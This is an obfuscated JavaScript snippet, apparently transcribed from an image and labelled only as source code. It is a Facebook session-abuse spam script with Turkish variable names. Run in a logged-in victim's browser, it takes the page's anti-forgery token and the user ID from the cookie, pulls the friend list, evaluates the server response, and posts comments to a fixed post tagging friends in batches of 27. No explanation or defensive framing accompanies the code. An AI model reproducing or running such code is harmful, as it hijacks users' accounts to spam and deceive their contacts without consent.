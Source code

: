 var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","342156262593977","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
